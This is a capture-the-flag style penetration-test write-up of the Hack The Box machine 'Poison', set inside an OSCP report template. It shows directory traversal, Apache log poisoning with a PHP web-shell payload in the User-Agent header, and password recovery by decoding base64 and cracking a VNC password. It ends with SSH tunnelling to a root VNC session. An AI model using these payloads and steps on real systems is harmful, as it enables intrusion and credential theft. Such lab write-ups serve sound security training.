

# Report - Poison 

## Introduction

The Offensive Security Exam penetration test report contains all efforts that were conducted in order to pass the Offensive Security course.
This report should contain all items that were used to pass the overall exam.
This report will be graded from a standpoint of correctness and fullness to all aspects of the  exam.
The purpose of this report is to ensure that the student has a full understanding of penetration testing methodologies as well as the technical knowledge to pass the qualifications for the Offensive Security Certified Professional.

## Objective

The objective of this assessment is to perform an internal penetration test against the Offensive Security Exam network.
The student is tasked with following methodical approach in obtaining access to the objective goals.
This test should simulate an actual penetration test and how you would start from beginning to end, including the overall report.
An example page has already been created for you at the latter portions of this document that should give you ample information on what is expected to pass this course.
Use the sample report as a guideline to get you through the reporting.

## Requirements

The student will be required to fill out this penetration testing report and include the following sections:

- Overall High-Level Summary and Recommendations (non-technical)
- Methodology walkthrough and detailed outline of steps taken
- Each finding with included screenshots, walkthrough, sample code, and proof.txt if applicable.
- Any additional items that were not included

# Sample Report - High-Level Summary

John Doe was tasked with performing an internal penetration test towards Offensive Security Labs.
An internal penetration test is a dedicated attack against internally connected systems.
The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Offensive Security's internal lab systems - the **THINC.local** domain.
John's overall objective was to evaluate the network, identify systems, and exploit flaws while reporting the findings back to Offensive Security.

When performing the internal penetration test, there were several alarming vulnerabilities that were identified on Offensive Security's network.
When performing the attacks, John was able to gain access to multiple machines, primarily due to outdated patches and poor security configurations.
During the testing, John had administrative level access to multiple systems.
All systems were successfully exploited and access granted.
These systems as well as a brief description on how access was obtained are listed below:

- Exam Trophy 1 - Got in through X
- Exam Trophy 2 - Got in through X

## Sample Report - Recommendations

John recommends patching the vulnerabilities identified during the testing to ensure that an attacker cannot exploit these systems in the future.
One thing to remember is that these systems require frequent patching and once patched, should remain on a regular patch program to protect additional vulnerabilities that are discovered at a later date.

# Sample Report - Methodologies

John utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Offensive Security Labs and Exam environments are secure.
Below is a breakout of how John was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Sample Report - Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, John was tasked with exploiting the exam network.
The specific IP addresses were:

**Exam Network**

Host: 10.10.10.84 

## Sample Report - Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

# Nmap scan host

An initial scan shows the ports 22, 80 are open:

```
# Nmap 7.91 scan initiated Mon Jan 11 00:37:19 2021 as: nmap -Pn -sC -sV -p- -oA nmap/poison-fulltcp 10.10.10.84
Nmap scan report for 10.10.10.84
Host is up (0.020s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2 (FreeBSD 20161230; protocol 2.0)
| ssh-hostkey: 
|   2048 e3:3b:7d:3c:8f:4b:8c:f9:cd:7f:d2:3a:ce:2d:ff:bb (RSA)
|   256 4c:e8:c6:02:bd:fc:83:ff:c9:80:01:54:7d:22:81:72 (ECDSA)
|_  256 0b:8f:d5:71:85:90:13:85:61:8b:eb:34:13:5f:94:3b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((FreeBSD) PHP/5.6.32)
|_http-server-header: Apache/2.4.29 (FreeBSD) PHP/5.6.32
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
Service Info: OS: FreeBSD; CPE: cpe:/o:freebsd:freebsd

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Jan 11 00:43:47 2021 -- 1 IP address (1 host up) scanned in 387.70 seconds
```

We see the main website is very basic and has a single input field requesting file entries:


Then we do a gobuster enumeration and find the following files:

```
$ gobuster dir -u gobuster dir -u http://10.10.10.84 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -o gobuster/main-raft-dir-medium.log -x php,pl,txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.84
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,pl,txt
[+] Timeout:        10s
===============================================================
2021/01/11 01:03:29 Starting gobuster
===============================================================
/info.php (Status: 200)
/index.php (Status: 200)
/browse.php (Status: 200)
/ini.php (Status: 200)
/phpinfo.php (Status: 200)
[ERROR] 2021/01/11 01:07:28 [!] parse http://10.10.10.84/error_log: net/url: invalid control character in URL
===============================================================
2021/01/11 01:08:27 Finished
===============================================================
```

We test to see if we can execute a simple directory traversal:


It looks like it is:

```
# $FreeBSD: releng/11.1/etc/master.passwd 299365 2016-05-10 12:47:36Z bcr $
#
root:*:0:0:Charlie &:/root:/bin/csh
toor:*:0:0:Bourne-again Superuser:/root:
daemon:*:1:1:Owner of many system processes:/root:/usr/sbin/nologin
operator:*:2:5:System &:/:/usr/sbin/nologin
bin:*:3:7:Binaries Commands and Source:/:/usr/sbin/nologin
tty:*:4:65533:Tty Sandbox:/:/usr/sbin/nologin
kmem:*:5:65533:KMem Sandbox:/:/usr/sbin/nologin
games:*:7:13:Games pseudo-user:/:/usr/sbin/nologin
news:*:8:8:News Subsystem:/:/usr/sbin/nologin
man:*:9:9:Mister Man Pages:/usr/share/man:/usr/sbin/nologin
sshd:*:22:22:Secure Shell Daemon:/var/empty:/usr/sbin/nologin
smmsp:*:25:25:Sendmail Submission User:/var/spool/clientmqueue:/usr/sbin/nologin
mailnull:*:26:26:Sendmail Default User:/var/spool/mqueue:/usr/sbin/nologin
bind:*:53:53:Bind Sandbox:/:/usr/sbin/nologin
unbound:*:59:59:Unbound DNS Resolver:/var/unbound:/usr/sbin/nologin
proxy:*:62:62:Packet Filter pseudo-user:/nonexistent:/usr/sbin/nologin
_pflogd:*:64:64:pflogd privsep user:/var/empty:/usr/sbin/nologin
_dhcp:*:65:65:dhcp programs:/var/empty:/usr/sbin/nologin
uucp:*:66:66:UUCP pseudo-user:/var/spool/uucppublic:/usr/local/libexec/uucp/uucico
pop:*:68:6:Post Office Owner:/nonexistent:/usr/sbin/nologin
auditdistd:*:78:77:Auditdistd unprivileged user:/var/empty:/usr/sbin/nologin
www:*:80:80:World Wide Web Owner:/nonexistent:/usr/sbin/nologin
_ypldap:*:160:160:YP LDAP unprivileged user:/var/empty:/usr/sbin/nologin
hast:*:845:845:HAST unprivileged user:/var/empty:/usr/sbin/nologin
nobody:*:65534:65534:Unprivileged user:/nonexistent:/usr/sbin/nologin
_tss:*:601:601:TrouSerS user:/var/empty:/usr/sbin/nologin
messagebus:*:556:556:D-BUS Daemon User:/nonexistent:/usr/sbin/nologin
avahi:*:558:558:Avahi Daemon User:/nonexistent:/usr/sbin/nologin
cups:*:193:193:Cups Owner:/nonexistent:/usr/sbin/nologin
charix:*:1001:1001:charix:/home/charix:/bin/csh
```

Then it becomes clear we can use log poisoning to execute commands via the log files:


We open a Burpsuite window and set up the browser to send all request to Burp proxy 127.0.0.1:8080.
We request the same request again and see the request is passing Burpsuite:


```
10.10.14.28 - - [11/Jan/2021:01:35:42 +0100] "GET /browse.php?file=%2Fvar%2Flog%2Fhttpd-access.log HTTP/1.1" 200 12152918 "-" "Mozilla/5.0 COPYRIGHT
bin
boot
dev
entropy
etc
home
lib
libexec
media
mnt
net
proc
rescue
root
sbin
sys
tmp
usr
var
 Firefox/78.0"
```

Now we can use Burpsuite to pass a php script using the User-Agent header, which is logged with the logfiles.

This can be passed inside the User-Agent header parameters:

```
<?php system($_GET['c']); ?>
```

This is passed using the Repeater module of Burpsuite:



Now we can execute commands using the c parameter in URL's:


Using the command pwd we find the location of the webdirectory is /usr/local/www/apache24/data.
The command ls shows the following files in this directory:

```
index.php
info.php
ini.php
listfiles.php
phpinfo.php
pwdbackup.txt
```

The file pwdbackup.txt looks interesting:

```
This password is secure, it's encoded atleast 13 times.. what could go wrong really..

Vm0wd2QyUXlVWGxWV0d4WFlURndVRlpzWkZOalJsWjBUVlpPV0ZKc2JETlhhMk0xVmpKS1IySkVU
bGhoTVVwVVZtcEdZV015U2tWVQpiR2hvVFZWd1ZWWnRjRWRUTWxKSVZtdGtXQXBpUm5CUFdWZDBS
bVZHV25SalJYUlVUVlUxU1ZadGRGZFZaM0JwVmxad1dWWnRNVFJqCk1EQjRXa1prWVZKR1NsVlVW
M040VGtaa2NtRkdaR2hWV0VKVVdXeGFTMVZHWkZoTlZGSlRDazFFUWpSV01qVlRZVEZLYzJOSVRs
WmkKV0doNlZHeGFZVk5IVWtsVWJXaFdWMFZLVlZkWGVHRlRNbEY0VjI1U2ExSXdXbUZEYkZwelYy
eG9XR0V4Y0hKWFZscExVakZPZEZKcwpaR2dLWVRCWk1GWkhkR0ZaVms1R1RsWmtZVkl5YUZkV01G
WkxWbFprV0dWSFJsUk5WbkJZVmpKMGExWnRSWHBWYmtKRVlYcEdlVmxyClVsTldNREZ4Vm10NFYw
MXVUak5hVm1SSFVqRldjd3BqUjJ0TFZXMDFRMkl4WkhOYVJGSlhUV3hLUjFSc1dtdFpWa2w1WVVa
T1YwMUcKV2t4V2JGcHJWMGRXU0dSSGJFNWlSWEEyVmpKMFlXRXhXblJTV0hCV1ltczFSVmxzVm5k
WFJsbDVDbVJIT1ZkTlJFWjRWbTEwTkZkRwpXbk5qUlhoV1lXdGFVRmw2UmxkamQzQlhZa2RPVEZk
WGRHOVJiVlp6VjI1U2FsSlhVbGRVVmxwelRrWlplVTVWT1ZwV2EydzFXVlZhCmExWXdNVWNLVjJ0
NFYySkdjR2hhUlZWNFZsWkdkR1JGTldoTmJtTjNWbXBLTUdJeFVYaGlSbVJWWVRKb1YxbHJWVEZT
Vm14elZteHcKVG1KR2NEQkRiVlpJVDFaa2FWWllRa3BYVmxadlpERlpkd3BOV0VaVFlrZG9hRlZz
WkZOWFJsWnhVbXM1YW1RelFtaFZiVEZQVkVaawpXR1ZHV210TmJFWTBWakowVjFVeVNraFZiRnBW
VmpOU00xcFhlRmRYUjFaSFdrWldhVkpZUW1GV2EyUXdDazVHU2tkalJGbExWRlZTCmMxSkdjRFpO
Ukd4RVdub3dPVU5uUFQwSwo=
```

I copy this base64 string in a file (without the comments) and decode it using base64 decoding:

```
cat pwdbackup.txt | base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d |base64 -d | base64 -d | base64 -d | base64 -d |base64 -d |base64 -d
Charix!2#4%6&8(0
```

We can use this password to login as charix using SSH:

```
$ ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Mon Mar 19 16:38:00 2018 from 10.10.14.4
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
To do a fast search for a file, try

         locate filename

locate uses a database that is updated every Saturday (assuming your computer
is running FreeBSD at the time) to quickly find files based on name only.
charix@Poison:~ % 
```

We find the user flag and also a secret.zip file:


On this server not much seems to be running besides a webserver except a Xvnc server, with a twm (Tab window manager) + xterm:

```
charix@Poison:~ % ps aux
USER   PID  %CPU %MEM    VSZ   RSS TT  STAT STARTED     TIME COMMAND
root    11 100.0  0.0      0    16  -  RL   15:27   53:37.60 [idle]
root     0   0.0  0.0      0   160  -  DLs  15:27    0:00.01 [kernel]
root     1   0.0  0.1   5408  1040  -  ILs  15:27    0:00.00 /sbin/init --
root     2   0.0  0.0      0    16  -  DL   15:27    0:00.00 [crypto]
root     3   0.0  0.0      0    16  -  DL   15:27    0:00.00 [crypto returns]
root     4   0.0  0.0      0    32  -  DL   15:27    0:00.03 [cam]
root     5   0.0  0.0      0    16  -  DL   15:27    0:00.00 [mpt_recovery0]
root     6   0.0  0.0      0    16  -  DL   15:27    0:00.00 [sctp_iterator]
root     7   0.0  0.0      0    16  -  DL   15:27    0:01.58 [rand_harvestq]
root     8   0.0  0.0      0    16  -  DL   15:27    0:00.00 [soaiod1]
root     9   0.0  0.0      0    16  -  DL   15:27    0:00.00 [soaiod2]
root    10   0.0  0.0      0    16  -  DL   15:27    0:00.00 [audit]
root    12   0.0  0.1      0   736  -  WL   15:27    0:01.02 [intr]
root    13   0.0  0.0      0    48  -  DL   15:27    0:00.00 [geom]
root    14   0.0  0.0      0   160  -  DL   15:27    0:00.14 [usb]
root    15   0.0  0.0      0    16  -  DL   15:27    0:00.00 [soaiod3]
root    16   0.0  0.0      0    16  -  DL   15:27    0:00.00 [soaiod4]
root    17   0.0  0.0      0    48  -  DL   15:27    0:00.05 [pagedaemon]
root    18   0.0  0.0      0    16  -  DL   15:27    0:00.00 [vmdaemon]
root    19   0.0  0.0      0    16  -  DL   15:27    0:00.00 [pagezero]
root    20   0.0  0.0      0    32  -  DL   15:27    0:00.04 [bufdaemon]
root    21   0.0  0.0      0    16  -  DL   15:27    0:00.00 [bufspacedaemon]
root    22   0.0  0.0      0    16  -  DL   15:27    0:00.04 [syncer]
root    23   0.0  0.0      0    16  -  DL   15:27    0:00.01 [vnlru]
root   319   0.0  0.5   9560  5052  -  Ss   15:27    0:00.13 /sbin/devd
root   390   0.0  0.2  10500  2448  -  Ss   15:27    0:00.05 /usr/sbin/syslogd -s
root   543   0.0  0.5  56320  5396  -  S    15:27    0:01.60 /usr/local/bin/vmtoolsd -c /usr/local/share/vmware-tools/tools.conf -p /usr/local/lib/open-vm-
root   620   0.0  0.7  57812  7052  -  Is   15:28    0:00.00 /usr/sbin/sshd
root   625   0.0  1.1  99172 11516  -  Ss   15:29    0:00.07 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    637   0.0  1.2 101220 12048  -  S    15:29    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    638   0.0  1.2 101220 11936  -  I    15:29    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    639   0.0  1.2 101220 11936  -  I    15:29    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    640   0.0  1.2 101220 11936  -  I    15:29    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
www    641   0.0  1.2 101220 11936  -  I    15:29    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
root   642   0.0  0.6  20636  6140  -  Ss   15:29    0:00.04 sendmail: accepting connections (sendmail)
smmsp  645   0.0  0.6  20636  5808  -  Is   15:30    0:00.00 sendmail: Queue runner@00:30:00 for /var/spool/clientmqueue (sendmail)
root   649   0.0  0.2  12592  2436  -  Ss   15:30    0:00.01 /usr/sbin/cron -s 
www    712   0.0  1.2 101220 11936  -  I    15:36    0:00.01 /usr/local/sbin/httpd -DNOHTTPACCEPT
root   781   0.0  0.8  85228  7772  -  Is   16:13    0:00.02 sshd: charix [priv] (sshd)
charix 784   0.0  0.8  85228  7828  -  S    16:14    0:00.02 sshd: charix@pts/1 (sshd)
root   529   0.0  0.9  23620  8872 v0- I    15:27    0:00.02 Xvnc :1 -desktop X -httpd /usr/local/share/tightvnc/classes -auth /root/.Xauthority -geometry 
root   540   0.0  0.7  67220  7064 v0- I    15:27    0:00.02 xterm -geometry 80x24+10+10 -ls -title X Desktop
root   541   0.0  0.5  37620  5312 v0- I    15:27    0:00.01 twm
root   696   0.0  0.2  10484  2076 v0  Is+  15:30    0:00.00 /usr/libexec/getty Pc ttyv0
root   697   0.0  0.2  10484  2076 v1  Is+  15:30    0:00.00 /usr/libexec/getty Pc ttyv1
root   698   0.0  0.2  10484  2076 v2  Is+  15:30    0:00.00 /usr/libexec/getty Pc ttyv2
root   699   0.0  0.2  10484  2076 v3  Is+  15:30    0:00.00 /usr/libexec/getty Pc ttyv3
root   700   0.0  0.2  10484  2076 v4  Is+  15:30    0:00.00 /usr/libexec/getty Pc ttyv4
root   701   0.0  0.2  10484  2076 v5  Is+  15:30    0:00.00 /usr/libexec/getty Pc ttyv5
root   702   0.0  0.2  10484  2076 v6  Is+  15:30    0:00.00 /usr/libexec/getty Pc ttyv6
root   703   0.0  0.2  10484  2076 v7  Is+  15:30    0:00.00 /usr/libexec/getty Pc ttyv7
root   563   0.0  0.4  19660  3616  0  Is+  15:28    0:00.01 -csh (csh)
charix 785   0.0  0.4  19660  3652  1  Ss   16:14    0:00.02 -csh (csh)
charix 800   0.0  0.3  21208  2652  1  R+   16:21    0:00.00 ps aux
```

In the netstat table we find sendmail is listening locally, and the VNC services (5801+5901):

```
charix@Poison:~ % netstat -an
Active Internet connections (including servers)
Proto Recv-Q Send-Q Local Address          Foreign Address        (state)
tcp4       0      0 10.10.10.84.22         10.10.14.28.60478      ESTABLISHED
tcp4       0      0 127.0.0.1.25           *.*                    LISTEN
tcp4       0      0 *.80                   *.*                    LISTEN
tcp6       0      0 *.80                   *.*                    LISTEN
tcp4       0      0 *.22                   *.*                    LISTEN
tcp6       0      0 *.22                   *.*                    LISTEN
tcp4       0      0 127.0.0.1.5801         *.*                    LISTEN
tcp4       0      0 127.0.0.1.5901         *.*                    LISTEN
udp4       0      0 *.514                  *.*                    
udp6       0      0 *.514                  *.*                    
...
```

We copy linpeas.sh script to the host using scp, set execute rights, run the script:

```
$ scp /home/user/Downloads/linpeas/linpeas.sh charix@10.10.10.84:/home/charix
Password for charix@Poison:
linpeas.sh                                                         100%  157KB   1.1MB/s   00:00
user@kali:~/hackthebox/hackthebox/poison$ ssh charix@10.10.10.84
Password for charix@Poison:
Last login: Mon Jan 11 16:14:22 2021 from 10.10.14.28
FreeBSD 11.1-RELEASE (GENERIC) #0 r321309: Fri Jul 21 02:08:28 UTC 2017

Welcome to FreeBSD!

Release Notes, Errata: https://www.FreeBSD.org/releases/
Security Advisories:   https://www.FreeBSD.org/security/
FreeBSD Handbook:      https://www.FreeBSD.org/handbook/
FreeBSD FAQ:           https://www.FreeBSD.org/faq/
Questions List: https://lists.FreeBSD.org/mailman/listinfo/freebsd-questions/
FreeBSD Forums:        https://forums.FreeBSD.org/

Documents installed with the system are in the /usr/local/share/doc/freebsd/
directory, or can be installed later with:  pkg install en-freebsd-doc
For other languages, replace "en" with a language code like de or fr.

Show the version of FreeBSD installed:  freebsd-version ; uname -a
Please include that output and any error messages when posting questions.
Introduction to manual pages:  man man
FreeBSD directory layout:      man hier

Edit /etc/motd to change this login announcement.
Need to quickly return to your home directory? Type "cd".
                -- Dru <genesis@istar.ca>
charix@Poison:~ % ls -l
total 168
-rwxr-xr-x  1 charix  charix  160486 Jan 11 16:40 linpeas.sh
-rw-r-----  1 root    charix     166 Mar 19  2018 secret.zip
-rw-r-----  1 root    charix      33 Mar 19  2018 user.txt
charix@Poison:~ % chmod +x linpeas.sh
charix@Poison:~ % ./linpeas.sh | tee linpeas.out
```

After searching for a while for the location of the VNC password file, it became clear the intended path is to find the VNC password in the secret.zip file.
Downloading the secret.zip file, and unzipped it using the 'Charix!2#4%6&8(0' passphrase to unlock it.
Using the vncpwd tool to unencrypt the vnc password that is hidden inside this file.

Location vncpwd tool: https://github.com/jeroennijhof/vncpwd

```
user@kali:~/hackthebox/hackthebox/poison$ scp charix@10.10.10.84:/home/charix/secret.zip .
Password for charix@Poison:
secret.zip                                                         100%  166     6.3KB/s   00:00    
user@kali:~/hackthebox/hackthebox/poison$ unzip secret.zip 
Archive:  secret.zip
[secret.zip] secret password: 
 extracting: secret                  
user@kali:~/hackthebox/hackthebox/poison$ ls
exploit  gobuster  linpeas.out  nmap  poison.md  pwdbackup-decoded.txt
pwdbackup.txt  screenshots  secret  secret.zip  ssh  vnc
user@kali:~/hackthebox/hackthebox/poison$ cat secret
[|Ֆz!user@kali:~/hackthebox/hackthebox/poison$ ls vnc/
vncpwd
user@kali:~/hackthebox/hackthebox/poison$ ls vnc/vncpwd/
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
user@kali:~/hackthebox/hackthebox/poison$ cd vnc/
user@kali:~/hackthebox/hackthebox/poison/vnc$ cd vncpwd/
user@kali:~/hackthebox/hackthebox/poison/vnc/vncpwd$ ls
d3des.c  d3des.h  LICENSE  Makefile  README  vncpwd  vncpwd.c
user@kali:~/hackthebox/hackthebox/poison/vnc/vncpwd$ make
gcc -Wall -g -o vncpwd vncpwd.c d3des.c
user@kali:~/hackthebox/hackthebox/poison/vnc/vncpwd$ ./vncpwd 
Usage: vncpwd <password file>
user@kali:~/hackthebox/hackthebox/poison/vnc/vncpwd$ ./vncpwd ../../secret
Password: VNCP@$$!
```

We found the password of the VNC server: VNCP@$$!
Opening a local port forwarding ssh session forwarding 5801+5901:

```
$ ssh -L 5801:127.0.0.1:5801 -L 5901:127.0.0.1:5901 charix@10.10.10.84
Password for charix@Poison:
```

Then open a connection to the vnc server locally on 127.0.0.1:1
(1 points to ports 5801,5901)

```
$ vncviewer 127.0.0.1:1
Connected to RFB server, using protocol version 3.8
Enabling TightVNC protocol extensions
Performing standard VNC authentication
Password: 
```

We get a VNC window with a Tab window manager and a xterm with root access.
Now we can read the root flag:


## Sample Report - Penetration

**Vulnerability Fix:**

**Severity:** Critical

**Proof of Concept Code Here:**

\newpage

## Sample Report - Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

John added administrator and root level accounts on all systems compromised.
In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to ensure that additional access could be established.

## Sample Report - House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organizations computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After the trophies on the exam network were completed, John removed all user accounts and passwords as well as the meterpreter services installed on the system.
Offensive Security should not have to remove any user accounts or services from the system.

# Additional Items Not Mentioned in the Report

This section is placed for any additional items that were not mentioned in the overall report.
